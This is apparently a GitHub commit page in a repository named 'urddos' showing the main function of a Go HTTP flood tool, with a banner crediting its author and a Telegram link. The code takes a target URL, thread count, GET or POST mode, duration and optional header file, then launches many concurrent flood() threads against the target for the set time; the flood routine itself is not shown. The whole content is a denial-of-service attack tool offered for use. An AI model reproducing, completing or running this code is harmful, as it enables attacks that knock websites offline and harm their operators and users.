 # ApnaaGame
func main() {
    fmt.Println("                                                                                         ")
    fmt.Println("                                                                                         ")
    fmt.Println("   ___                                                           ___ ")
    fmt.Println("  |               |                                                         |               |")
    fmt.Println("  | Jai Shree Ram |  =====================================================  | Jai Shree Ram |")
    fmt.Println("  | Jai Shree Ram |  | ================================================= |  | Jai Shree Ram |")
    fmt.Println("  | Jai Shree Ram |  | |                                               | |  | Jai Shree Ram |")
    fmt.Println("  | Jai Shree Ram |  | |     █████████████████████████████████████     | |  | Jai Shree Ram |")
    fmt.Println("  | Jai Shree Ram |  | |     █▄─██─▄█▄─▄▄▀█▄─▄▄▀█▄─▄▄▀█─▄▄─█─▄▄▄▄█     | |  | Jai Shree Ram |")
    fmt.Println("  | Jai Shree Ram |  | |     ██─██─███─▄─▄██─██─██─██─█─██─█▄▄▄▄─█     | |  | Jai Shree Ram |")
    fmt.Println("  | Jai Shree Ram |  | |     ▀▀▄▄▄▄▀▀▄▄▀▄▄▀▄▄▄▄▀▀▄▄▄▄▀▀▄▄▄▄▀▄▄▄▄▄▀     | |  | Jai Shree Ram |")
    fmt.Println("  | Jai Shree Ram |  | |                                               | |  | Jai Shree Ram |")
    fmt.Println("  | Jai Shree Ram |  | ================================================= |  | Jai Shree Ram |")
    fmt.Println("  | Jai Shree Ram |  =====================================================  | Jai Shree Ram |")
    fmt.Println("  |___|  t.me/o_rohanmaurya_o             COD3D BY ROHAN    |___|")
    fmt.Println("                                                    =====================")
    fmt.Println("                                                                                         ")
    fmt.Println("                                                                                         ")
    fmt.Println("                                                                                         ")
    fmt.Println("                                                                                         ")
 if len(os.Args) != 6 {
  fmt.Println("")
  fmt.Println("")
  fmt.Println("Usage: ", os.Args[0], "<url> <threads> <get/post> <seconds> <header.txt/nil>")
  os.Exit(1)
 }
 u, err := url.Parse(os.Args[1])
 if err != nil {
  println("Please input a correct url")
 }
 tmp := strings.Split(u.Host, ":")
 host = tmp[0]
 if u.Scheme == "https" {
  port = "443"
 } else {
  port = u.Port()
 }
 if port == "" {
  port = "80"
 }
 page = u.Path
 if os.Args[3] != "get" && os.Args[3] != "post" {
  println("Wrong mode, Only can use \"get\" or \"post\"")
  return
 }
 mode = os.Args[3]
 threads, err := strconv.Atoi(os.Args[2])
 if err != nil {
  fmt.Println("Threads should be a integer")
 }
 limit, err := strconv.Atoi(os.Args[4])
 if err != nil {
  fmt.Println("limit should be a integer")
 }
 if contain(page, "?") == 0 {
  key = "?"
 } else {
  key = "&"
 }
 input := bufio.NewReader(os.Stdin)

 for i := 0; i < threads; i++ {
  time.Sleep(time.Microsecond * 100)
  go flood() // Start threads
  fmt.Printf("\rThreads [%.0f] are ready", float64(i+1))
  os.Stdout.Sync()
  //time.Sleep( time.Millisecond * 1)
 }
 fmt.Printf("\nPlease [Enter] for continue")
 _, err = input.ReadString('\n')
 if err != nil {
  fmt.Println(err)
  return
 }
 fmt.Println("Flood will end in " + os.Args[4] + " seconds.")
 close(start)
 time.Sleep(time.Duration(limit) * time.Second)
 //Keep the threads continue
}
0 comments on commit f26ef61
Comment
 
Leave a comment
 
 You’re not receiving notifications from this thread.
Footer
© 2024 GitHub, Inc.
Footer navigation
Terms
Privacy
Security
Status
Docs
Contact
Manage cookies
Do not share my personal information
Add files via upload · imneji22/urddos@f26ef61

